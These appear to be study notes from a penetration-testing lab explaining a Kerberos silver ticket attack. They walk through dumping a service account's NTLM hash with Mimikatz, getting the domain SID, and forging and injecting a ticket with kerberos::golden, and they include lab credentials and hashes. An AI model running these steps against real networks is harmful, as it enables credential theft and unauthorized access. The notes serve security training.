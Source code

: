 - *Privileged Account Certificate (PAC) validation*
	- If this is enabled, the user authenticating to the service and its privileges are validated by the domain controller.
		- Fortunately for this attack technique, service applications rarely perform PAC validation.
	- As an example, if we authenticate against an IIS server that is executing in the context of the service account iis_service, the IIS application will determine which permissions we have on the IIS server depending on the group memberships present in the service ticket.
	- With the service account password or its associated NTLM hash at hand, we can forge our own service ticket to access the target resource (in our example, the IIS application) with any permissions we desire. This custom-created ticket is known as a silver ticket3 and if the service principal name is used on multiple servers, the silver ticket can be leveraged against them all.
	- In this section's example, we'll create a silver ticket to get access to an HTTP SPN resource. As we identified in the previous section, the iis_service user account is mapped to an HTTP SPN. Therefore, the password hash of the user account is used to create service tickets for it. For the purposes of this example, let's assume we've identified that the iis_service user has an established session on CLIENT75.
- Need 3 things to create a silver ticket:
	- SPN password hash
	- Domain SID
	- Target SPN
- Example:
	- Set up:
		- Let's get straight into the attack by connecting to CLIENT75 via RDP as jeff with the password HenchmanPutridBonbon11.
	- Start:
	- Confirm that our current user has no access to the resource of the HTTP SPN mapped to iis_service.
		- `iwr -UseDefaultCredentials http://web04`
	- Since we are a local Administrator on this machine where iis_service has an established session, we can use Mimikatz to retrieve the SPN password hash (1st info we need)
		- Start PowerShell as Administrator and launch **Mimikatz**:
		- `.\mimikatz
		- `privilege::debug`
		- `sekurlsa::logonpasswords`
	- We can enter **whoami /user** to get the SID of the current user. Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain. (2nd info we need)
		- `whoami /user`
		- output -> [S-1-5-21-1987370270-658905905-1781884369]-1105
			-omit RID
	- We'll target the HTTP SPN resource on WEB04 (HTTP/web04.corp.com:80) (3rd info we need)

- Command:
	- `kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin`
		- **kerberos::golden** -> module
		- **/sid:** -> domain SID
		- **/domain:** ->  domain name
		- **/target:** -> target where the SPN runs
		- **/service:** -> SPN protocol
		- **/rc4:** -> NTLM hash of the SPN
		- **/ptt** -> allows us to inject the forged ticket into  memory
		- **/user:** -> an existing domain user
